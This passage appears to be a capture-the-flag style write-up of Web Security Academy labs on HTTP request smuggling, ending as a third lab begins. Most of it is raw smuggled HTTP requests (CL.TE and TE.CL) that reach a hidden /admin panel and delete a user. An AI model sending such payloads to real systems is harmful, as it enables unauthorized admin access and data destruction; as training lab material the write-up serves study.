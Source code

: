     POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 142
    Transfer-Encoding: chunked

    0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=

### LAB: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Same as above lab. Resend this request 2 times to get into the admin interface:

    POST / HTTP/1.1
    Host: 0a1700270458b0bf81338a4e002c0049.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    70
    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

Now we successfully accessed the admin interface and notice the endpoint to delete user Carlos: `/admin/delete?username=carlos`. Resend this request 2 times to delete that user:

    POST / HTTP/1.1
    Host: 0a1700270458b0bf81338a4e002c0049.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    87
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

### LAB: Exploiting HTTP request smuggling to reveal front-end request rewriting
Notice the search function will reflect the value of `search` parameter into the response. To discover the front-end request rewriting, send this request 2 times:
